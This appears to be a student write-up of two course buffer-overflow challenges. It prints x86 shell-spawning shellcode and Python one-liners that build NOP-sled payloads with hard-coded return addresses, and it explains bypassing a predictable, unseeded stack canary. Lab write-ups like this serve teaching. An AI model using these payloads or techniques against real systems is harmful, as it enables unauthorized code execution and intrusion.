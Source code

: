 # Challenge 1

This one involves a buffer overflow attack.

We first use the shell code provided in class that runs the assembly to invoke a shell.

```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
```

Then we run gdb on the binary to find the address of the buffer overflow. We found out that we have to overwrite about 80 bytes. With a 23 byte shell code, we pad the shell code with 39 NOPs, and 14 random bytes, then with the new return address we want to go to. With some trial and error with the padding and NOP sled, we are able to invoke the shell via the binary script.

```bash
 python -c "print '\x90'*39+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80'+'A'*10 +'B'*4+'\x7c\xad\xff\xbf'" > asd
```

# Challenge 2

This one is very similar to challenge 1. We can use the same distances between the buffer and return address as Challenge 1 but add 4 to it since instead of just a 64 byte buffer, we have an extra 4 byte buffer before that as well. So we have to overwrite 84 bytes.

This new code requires check of a canary at the position right after the buffer. So we need to add the canary value within our payload right after 64 bytes of something before. We can then add in the 4 byte canary value and add in the rest of the padding and return address to execute our injected shell code.

To get the value of the canary, I first flooded the 64 byte buffer with 63 A's (with the string terminator = 64 bytes). Then I inspected the stack and found the value right after the A's to be 0x726c576e. Upon looking at the raw c code, it's clear that the value won't change since rand() is used without a seed, so it will produce the same canary value every execution. We can put that canary value into our payload to bypass the canary check. Using the same process of using GDB to find the return address, we can update the return address to put the program into the NOP slide.

![canary](images/2_canary.png)

After a lot of trial and error, I was able to use the following

```bash
python -c "print '\x90'*41 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80'+ '\x6e\x57\x6c\x72' + 'A'*12 + '\x1c\x65\xff\xbf'" > asd2
`
